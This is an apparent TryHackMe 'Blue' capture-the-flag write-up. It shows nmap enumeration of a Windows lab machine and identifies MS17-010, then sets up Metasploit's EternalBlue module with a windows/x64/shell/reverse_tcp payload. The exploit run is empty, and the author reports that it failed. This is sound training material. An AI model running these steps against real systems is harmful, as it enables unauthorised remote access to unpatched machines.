

## Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Cracking](#cracking)


## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Once the machine is started, we'll start by scanning the network: 

```console
$ sudo nmap -sS -vv MACHINE_IP
...
Initiating SYN Stealth Scan at 15:45
Scanning MACHINE_IP [1000 ports]
Discovered open port 135/tcp on MACHINE_IP
Discovered open port 3389/tcp on MACHINE_IP
Discovered open port 139/tcp on MACHINE_IP
...
PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49158/tcp open  unknown       syn-ack ttl 127
49160/tcp open  unknown       syn-ack ttl 127

...
```

So, from this simple scan, we get the answer to the first question asked in the room:

> How many ports are open with a port number under 1000?
> > 3

We can further check the service versions by running a service scan on ports `135`, `139` and `445`:

```console
$ nmap -sV -vv -p135,139,445 MACHINE_IP 
...

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

...
```

Nothing interesting... Well, the answer to the next question will be the exploit code corresponding to the `Eternal Blue` exploit. How did I get to that conclusion? To be honest, it's quite obviously displayed all over the web page when you view the room on Tryhackme: 



A simple and quick search tells us the exploit's alternative name:


Thus, we get the answer to the next question:

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> > MS17-010

## Gaining Access

Armed with the knowledge we gained from the enumeration phase, let's try and exploit the machine we're given.

Now, there's 2 ways to do this, with metasploit and without it. We'll try and do it with metasploit but I'll try and make a section where I give it a go without using metasploit.

After we fire up `msfconsole`, we can try and search for any available exploits:

```console
$ sudo msfconsole -q
msf6 > search eternal blue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                 
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection                                                                                  
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

The one we're looking for is the first one, `exploit/windows/smb/ms17_010_eternalblue`. So we get the answer for the first question in this section:

> Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
> > exploit/windows/smb/ms17_010_eternalblue

We can have a look at the options of the module we've selected like so:

```console
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.80.0.96       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

We'll need to set some of these, the first and most essential being `RHOSTS`:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS  MACHINE_IP 
RHOSTS => MACHINE_IP
```

That's the answer to the second question:

> Show options and set the one required value. What is the name of this value? (All caps for submission)
> > RHOSTS

Next, we'll be setting the payload for the exploit, I'll be using `windows/x64/shell/reverse_tcp` as indicated in the room's instructions:

```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```


And now, we just run the exploit and see the magic happen!
> Note that if this does not work, just reboot the VM by terminating it and starting it again, and then running this exploit after updating RHOSTS

```console
```

#### Well, The exploit's not working at all for me, so I'll update this writeup when it does. Cheers!

--- 

Link to the room: https://tryhackme.com/room/blue

